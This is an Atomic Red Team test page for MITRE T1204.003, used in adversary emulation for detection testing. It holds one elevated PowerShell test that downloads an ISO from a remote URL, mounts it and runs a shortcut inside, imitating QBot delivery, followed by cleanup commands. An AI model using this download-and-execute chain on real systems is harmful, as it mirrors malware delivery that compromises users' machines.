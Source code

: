 ```yaml
---
tags: [T1204_003, atomic_test]
filename: "[[T1204.003 - User Execution- Malicious Image]]"
---
```

# T1204.003 - User Execution: Malicious Image

## Atomic Test #1 - Malicious Execution from Mounted ISO Image
Adversaries may rely on a user running a malicious image to facilitate execution

**Supported Platforms:** Windows


**auto_generated_guid:** e9795c8d-42aa-4ed4-ad80-551ed793d006






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.003/src/qbot-test.iso" -OutFile "$env:TEMP\qbot-test.iso")
Mount-DiskImage -ImagePath "$env:TEMP\qbot-test.iso"
$mountedpath = (Get-DiskImage -ImagePath "$env:TEMP\qbot-test.iso" | Get-Volume).DriveLetter
$finalpath = $mountedpath + ":\"
cd $finalpath
.\calc.exe.lnk
```

#### Cleanup Commands:
```powershell
start-sleep -s 5
stop-process -Name "Calculatorapp" -Force 
dismount-diskimage -ImagePath "$env:TEMP\qbot-test.iso"
```





<br/>
